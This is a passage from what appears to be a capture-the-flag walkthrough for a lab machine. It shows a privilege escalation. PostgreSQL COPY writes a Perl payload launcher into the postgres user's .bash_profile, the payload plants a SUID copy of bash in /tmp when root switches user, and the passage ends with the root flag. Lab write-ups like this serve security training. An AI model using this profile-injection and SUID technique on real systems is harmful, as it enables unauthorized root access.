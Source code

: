 ```
download=> copy (select 'perl /home/wesley/exploit.pl') to '/var/lib/postgresql/.bash_profile';
COPY 1
download=> 
```

Now to wait for the root user to issue the command. After it executes `su -l postgres` it should read the `.bash_profile` settings and execute the Perl payload saved within Wesley's home directory. Then it should background the lower privileged postgres terminal session and begin inputting the payload into the roots terminal.

The payload will copy bash to the temp directory and grant it SUID permissions meaning other users can inherit those permissions when they execute it. 

```
wesley@download:/tmp$ ./bash -p
bash-5.0# id
uid=1000(wesley) gid=1000(wesley) euid=0(root) groups=1000(wesley)
bash-5.0# ls -la /tmp/bash
-rwsr-xr-x 1 root root 1183448 Aug 12 17:33 /tmp/bash
bash-5.0# 
```

The bash file appeared in the temp directory and it was possible to obtain root access by passing the `-p` flag in addition to making sure bash is executed from the current working directory.

#### Root flag captured

```
bash-5.0# cat /root/root.txt
44fb29e1de55499435039058520d9cf3
bash-5.0# 
```





